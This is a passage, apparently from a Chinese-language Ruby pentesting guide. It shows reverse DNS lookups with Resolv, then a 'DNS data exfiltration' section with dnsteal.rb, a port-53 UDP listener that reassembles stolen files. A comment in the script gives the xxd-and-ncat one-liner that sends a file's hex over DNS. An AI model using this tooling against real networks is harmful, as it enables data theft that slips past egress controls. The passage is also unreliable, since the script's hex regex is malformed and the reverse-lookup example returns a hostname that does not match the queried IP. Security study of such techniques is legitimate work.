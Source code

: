 或使用 `Resolv.getaddress` 只获取一个地址

### 反向 DNS 查找（IP 到主机）

```
require 'resolv'
Resolv.getnames "23.23.122.48" 
```

返回所有主机名的数组，如果 PTR 被分配

```
["ec2-174-129-41-187.compute-1.amazonaws.com"] 
```

或使用 `Resolv.name` 只获取一个名称

## DNS 数据外泄

DNS 外部连接通常允许在本地网络中使用，这是使用 DNS 将数据传输到外部服务器的主要优势。

**dnsteal.rb**

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
# for hex in $(xxd -p ethernet-cable.jpg); do echo $hex | ncat -u localhost 53 ; done
# 
require 'socket'

if ARGV.size < 1
  puts "[+] sudo ruby #{__FILE__} <FILENAME>"
  exit
else
  file = ARGV[0]
end

# Open UDP Socket and bind it to port 53 on all interfaces
udpsoc = UDPSocket.new
udpsoc.bind('0.0.0.0', 53)

begin

  data     = ''
  data_old = ''

  loop do
    response = udpsoc.recvfrom(1000)
    response = response[0].force_encoding("ISO-8859-1").encode("utf-8")
    data = response.match(/[^<]a-f0-9.*a-f0-9/i).to_s

    # Write received data to file
    File.open(file, 'a') do |d|
      d.write [data].pack("H*") unless data == data_old     # Don't write the same data twice(poor workaround)
      puts data unless data == data_old
    end

    data_old = data 
  end

rescue Exception => e
  puts e
end 
```
